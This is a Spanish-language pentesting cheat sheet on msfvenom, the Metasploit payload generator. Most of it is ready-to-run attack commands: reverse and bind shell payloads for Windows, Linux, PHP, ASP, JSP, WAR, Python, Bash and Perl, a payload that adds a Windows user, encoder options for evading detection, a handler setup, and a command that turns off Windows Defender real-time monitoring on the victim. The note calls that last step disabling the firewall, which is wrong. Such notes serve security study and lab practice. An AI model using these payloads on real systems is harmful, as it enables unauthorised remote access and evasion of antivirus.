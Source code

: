 Es una herramienta de mestasploit para crear nuestro propio payload y poder ejecutarlo en la maquina víctima.

Nos muestra los payloads que tenemos disponibles.

```shell
msfvenom -l payloads 
```

## Tipos :

* Stage: Envia el codigo malicioso en varias etapas para no ser detectado a veces no se puede usar con msfvenom sino con [[Metasploit]] directamente.

* Stageless: Envia el codigo entero puede ser detectado , sí lo puede usar msfvenom. 

Usar un payload que hemos visto con la opcion "-p" se lo indicamos y la opción "--list-options" vemos las opciones que son necesarias para poder ejecutarlo.

```shell
msfvenom -p windows/adduser --list-options
```

Con la opcion -f , podemos ver el formato que queremos que cree el payload

```shell
msfvenom -p windows/adduser -f exe -o adduser.exe
```

Deshabilitamos el firewall de windows con la instruccion en la maquina víctima

```shell
Set-MpPreference -disableRealtimeMonitoring $true
```

y creamos el ejecutable.

Compartimos el archivo mediante "impacket-smbserver", compartimos el directorio que estamos actualmente

```shell
impacket-smbserver share ./
```

Si no se puede conectar probamos lo mismo pero obligando a introducir un usuario y una contraseña 

```shell
impacket-smbserver share ./ -smb2support -username test -password test
```

por ultimo desde windows nos conectamos desde la barra de ejecucion

```shell 
\\<ip kali>\share
```



## Shell reversa en windows stageless

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=8001 -f exe -o shellp8001.exe
```

y me pongo en escucha en kali con netcat

```shell
nc -lvnp 8001
```

## Algunos ejemplos extras

```shell
# Crear un payload
msfvenom -p [payload] LHOST=[IPAtacante] LPORT=[PuertoEscucha]

# Listar payloads
msfvenom -l payloads

# Listar opciones de payloads
msfvenom -p [payload] --list-options
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

# Crear un payload encodeado
msfvenom -p [payload] -e [encoder] -f [FormatoSalida] -i [iteración]  > ArchivoResultante

# Crear un payload usando una plantilla
msfvenom -p [payload]  -x [Plantilla] -f [FormatoSalida] > ArchivoResultante

# Poner a la escucha Payloads en Metasploit:
msf6>use exploit/multi/handler
msf6>set payload windows/meterpreter/reverse_tcp
msf6>set lhost [IP]
msf6>set lport  [Puerto]
msf6> set ExitOnSession false
msf6>exploit -j

#  Payloads para Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f exe > shell.exe

msfvenom -p windows/meterpreter_reverse_http LHOST=[IPAtacante] LPORT=[PuertoEscucha] HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe

msfvenom -p windows/meterpreter/bind_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f exe > shell.exe

msfvenom -p windows/shell/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f exe > shell.exe

msfvenom -p windows/shell_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f exe > shell.exe



#  Payloads para Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f elf > shell.elf

msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f elf > shell.elf

msfvenom -p linux/x64/shell_bind_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f elf > shell.elf

msfvenom -p linux/x64/shell_reverse_tcp RHOST=[IPRemota] LPORT=[PuertoEscucha] -f elf > shell.elf


# Add a user in windows with msfvenom:
msfvenom -p windows/adduser USER=[usuario] PASS=[password] -f exe > adduser.exe

#  Generar Web Payloads

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.php
cat shell.php | pbcopy && echo shell.php && pbpaste >> shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f war > shell.war


#  Payloads en formato script
# Lenguaje Python
msfvenom -p cmd/unix/reverse_python LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.py

# Lenguaje Bash
msfvenom -p cmd/unix/reverse_bash LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.sh

# Lenguaje Perl
msfvenom -p cmd/unix/reverse_perl LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f raw > shell.pl

# Crear un payload encodeado borrando los caracteres malos:
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=[IPAtacante] LPORT=[PuertoEscucha] -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```